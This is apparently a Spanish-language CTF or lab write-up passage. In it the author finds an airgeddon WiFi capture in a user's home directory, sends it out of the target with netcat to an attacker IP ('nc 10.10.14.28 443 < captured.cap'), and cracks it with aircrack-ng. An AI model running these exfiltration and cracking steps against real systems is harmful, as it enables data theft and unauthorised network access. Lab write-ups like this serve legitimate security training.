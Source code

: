 ### Investigamos la maquina {-}

```bash
cd /home
#Output
zeus

ls /home/zeus
#Output
airgeddon
```

### Airgeddon.cap crack with Aircrack-ng {-}

Airgeddon es una suite de utilidades para hacer auditorias wifi. Entrando en el repertorio airgeddon del usuario zeus encontramos
otro repertorio llamado captured. Filtrando el contenido del directorio aigedon por ficheros `find \-type f` encontramos un fichero 
**captured.cap** 

Vamos a transferir el fichero captured.cap a nuestro equipo de atacante

1. En la maquina de atacante

    ```bash
    nc -nlvp 443 > captured.cap
    ```

1. En el contenedor

    ```bash
    nc 10.10.14.28 443 < captured.cap
    ```

Sabiendo que Airgeddon es una utilidad de auditoria wifi intentamos ver lo que contiene el **captured.cap** con la utilidad **aircrack-ng**.

```bash
aircrack-ng captured-cap
```

<div class="figure">
<img src="images/aircrack-airgeddon.png" alt="aircrack-ng sobre airgeddon capture" width="90%" />
<p class="caption">(\#fig:unnamed-chunk-3)aircrack-ng sobre airgeddon capture</p>
</div>
